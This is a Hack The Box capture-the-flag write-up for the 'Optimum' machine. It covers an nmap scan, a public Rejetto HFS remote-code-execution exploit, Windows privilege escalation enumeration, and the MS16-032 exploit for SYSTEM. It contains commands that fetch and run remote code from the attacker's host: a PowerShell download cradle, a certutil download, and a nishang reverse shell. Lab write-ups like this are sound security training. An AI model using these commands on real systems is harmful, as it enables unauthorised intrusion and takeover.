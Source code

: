 # Optimum [HTB]()
![optimum-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Optimum/img/optimum-01.png)


## Recon

I start by adding the target to `/etc/hosts` :

![hosts-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Optimum/img/hosts-02.png)

From here i use `nmap` to scan the target:

```bash
nmap -sC -sV -A -p- optimum.htb -oN nmap.result
```

![nmap-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Optimum/img/nmap-res-03.png)


We have a single port open, appears to be running an HTTP file server. Lets take a look at it.


### HFS Port 80


Lets open the site through our browsers at `http://optimum.htb`

![site-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Optimum/img/site-04.png)


No files are hosted on the site at the moment. However, two things jump to my mind, the login link, and 
the version at the buttom. We could try to break the authintication logic, but if we hover over the 
version link we can see the file server is running `Rejetto`, which can also be seen from the page source:

![rejjeto-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Optimum/img/rejjeto-05.png)

If we search Goolge for exploits we can find an RCE exploit from [ExploitDB](https://www.exploit-db.com/exploits/39161). The script looks like Python 2, it says we need to have a web server hosting `nc.exe`, 
and we need to setup a listener manually. Lets give it a shot. 

After i download the file, i update my local IP and port information:

![exploit-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Optimum/img/exploit-06.png)

Now i grab a copy of `/usr/share/windows-resources/binaries/nc.exe` to my current working directory 
and start a Python web server with:

```bash
python3 -m http.server 80
```

I then start my listener with:

```bash
rlwrap nc -lnvp 443
```

Now I execute the exploit with:

```
python2 rejetto_rce.py optimum.htb 80
```

![shell-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Optimum/img/shell-07.png)

After a couple of executions i get a shell. First run it grabbed `nc.exe` from my server, second time 
it connected with the shell. 


## Privilege Escalation


If we try to catch quick wins by checking privs with:

```cmd
whoami /priv
```

We dont get anything useful. Or if we look for saved credentials with:

```cmd
cmdkey /list
```

Again, nothing there. 


Having a look at the user's home directory and `AppData` folder, nothing interesting comes up. 
No unusual software. No interesting config files. I also checked our user's group membership, nothing useful. 

If we try to open a PowerShell prompt with `powershell -ep bypass`, the shell connection freezes until 
we terminate it and re-execute the exploit. 

If we try to hunt for stored password in the registry with:

```cmd
reg query HKLM /f password /t REG_SZ /s
reg query HKLM /f password /t REG_SZ /s
```

Nothing comes up. 


So i decided to generate `systeminfo` output and run [windows exploit suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) againts it. 


![sysinfo-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Optimum/img/sysinfo-08.png)


We are up againts an x64 Windows 2012 R2 server. The exploit suggester returned quite a lot of potential 
kernel exploits. I tried a few, but they didnt work for me. 


So I decided to enumerate the system deeper, i tried finding lenient service permission with [accesschk64](https://github.com/phackt/pentest/blob/master/privesc/windows/accesschk64.exe):


```cmd
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
```


Nothing came up, so i tried to look for weak regitry ACL with:

```cmd
accesschk.exe /accepteula "authenticated users" -kvuqsw hklm\System\CurrentControlSet\services
```

Nothing interesting came from that. I also tried running `WinPeas` but this froze the shell connection, 
and it appears the process gets hung and never terminitates. 

I tried looking at running services with:

```cmd
tasklist /SVC
```

Again, no leads came from that. I also tried looking at startup applications with:

```cmd
dir "C:\Documents and Settings\All Users\Start Menu\Programs\Startup"
```

There were no startup tasks running as SYSTEM. 


At this point i decided to take a step back. I didnt find any third party software on the target, 
no misconfiguration of services, or file permissions. No saved credentials, no weak user privileges, 
no system tasks, no system services, Powershell freezes the connection, WinPEAS hangs indefinitely, 
what to do? 

Then i thought, this is a 2012 R2 server, the escalation must be a kernel exploit. So i went back to 
the `windows-exploit-suggester` output from before. I tried different exploits, and once again, nothing 
worked for me. i spent quite some time here.  

Primarly, i was interested in the `ms16-135` exploit, which is supposed to work for most x64-bit Windows
machines, which our target is. But instad, the exploit terminated saying, our machine's architecture was 32-bit. 

There was another exploit i tried a few times, `ms16-032`:

![exploit-suggester-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Optimum/img/exploit-suggester-09.png)

Previously, i tried the `metasploit` version, this failed so i decided to move on. However this time, 
i found a PowerShell version of the exploit [here](https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1). 


If we take a look at the source code, we can see we need to invoke the function and specify a command to run as SYSTEM:

![exploit-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Optimum/img/exploit-10.png)

We can host nishang's reverse powershell script on a python server, setup a listener and run the exploit. 

First step, download the exploit to you kali, and invoke the funciton at the buttom:

![invoke-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Optimum/img/invoke-11.png)

```powershell
Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.42/rshell.ps1')"
```

Next, download [nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) reverse shell script to your kali.

Add the following line at the end of the script:

![nishang-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Optimum/img/nishang-12.png)

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.42 -Port 9001
```

Now, from the target, download the exploit with:

```cmd
certutil -urlcache -f http://10.10.14.42/ms16-032.ps1 ms16-032.ps1
```

Setup the listener on you kali:

```bash
rlwrap -lnvp 9001
```

Then, use the 32-bit version of powershell to execute the exploit:

```cmd
C:\Windows\sysnative\WindowsPowershell\v1.0\powershell.exe "C:\Users\kostas\Desktop\ms16-032.ps1"
```

This should give you a shell as the SYSTEM:

![root-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Optimum/img/root-13.png)


